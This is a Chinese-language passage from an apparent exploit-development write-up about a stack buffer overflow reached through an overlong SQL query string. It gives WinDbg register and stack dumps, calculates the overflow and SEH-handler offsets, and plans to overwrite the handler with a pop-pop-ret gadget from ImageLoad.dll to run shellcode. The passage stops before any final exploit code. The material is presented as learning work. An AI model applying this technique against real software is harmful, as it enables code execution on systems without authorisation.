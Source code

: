 ```
```
这里关注一下之后调用`sub_496600`函数的代码，可以看到传入该函数的第一个参数是ecx，而且ecx在`03125fa4`栈地址的下方，所以如果畸形字符串足够长那么就会覆盖ecx指向的内存，根据前面的分析，ecx指向的内存最后就会赋给eax然后造成内存访问异常。可以计算一下`ecx-0x03125fa4-len("select * from sqltable where name='")=4193`,就是说畸形字符串长度超过4193字节后就可能会触发内存访问异常。
***
## 漏洞利用（一）
在造成内存访问异常后，会触发seh异常处理，这里我直接覆盖异常处理句柄进而执行shellcode，暂时不考虑绕过各种安全机制。
编写exp前首先计算如何布局shellcode内存，其实可以利用pwntools中的cyclic工具生成payload进行填写然后可以快速的确定布局，但是这里直接手动计算全是为了学习。

重新调试程序不附加断点
```
0:007> !teb
TEB at 0031e000
    ExceptionList:        03226fa4
    StackBase:            03240000
    StackLimit:           03224000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0031e000
    EnvironmentPointer:   00000000
    ClientId:             00008af0 . 00002348
    RpcHandle:            00000000
    Tls Storage:          0080bc28
    PEB Address:          00306000
    LastErrorValue:       2
    LastStatusValue:      c0000034
    Count Owned Locks:    0
    HardErrorMode:        0
0:007> dps 03226fa4 l2
03226fa4  41414141
03226fa8  41414141		；seh处理句柄

0:007> dc edi
03225fa4  656c6573 2a207463 6f726620 7173206d  select * from sq
03225fb4  6261746c 7720656c 65726568 6d616e20  ltable where nam
03225fc4  41273d65 41414141 41414141 41414141  e='AAAAAAAAAAAAA
03225fd4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
03225fe4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
03225ff4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
03226004  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
03226014  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA

```
这里虽然被覆盖成畸形字符串，但是第一个seh处理句柄地址不变，另外edi的值就是sql查询字符串的地址（汇编可以分析出来），虽然栈地址每次执行程序都会改变但是相对距离不变，所以这里计算`异常处理句柄地址和payload首部的距离=0x03226fa8-0x03225fa4-len("select * from sqltable where name='")=4065`。然后覆盖异常处理句柄，可以直接在`ImageLoad.dll`的内存空间中搜索`pop pop ret`的跳转指令，这个dll也是主程序要加载的dll，而且它的内存空间的地址没有0字节。这样使程序跳转到shellcode的范围内，这里可以使用相关工具搜索。在异常处理时栈的情况是
```
0:007> dd esp
032255a0  77906202 03225a48 03226fa4 03225a98
032255b0  03225610 03226fa4 77906220 03226fa4
032255c0  03225a20 779061d4 03225a48 03226fa4
032255d0  03225a98 03225610 41414141 03225a98
032255e0  03225a48 03225a30 778e3065 03225a48
032255f0  03226fa4 03225a98 03225610 41414141
03225600  03225fa4 03225f7c 032256dc 778f9fd0
03225610  61866a22 00000000 03224000 03240000

```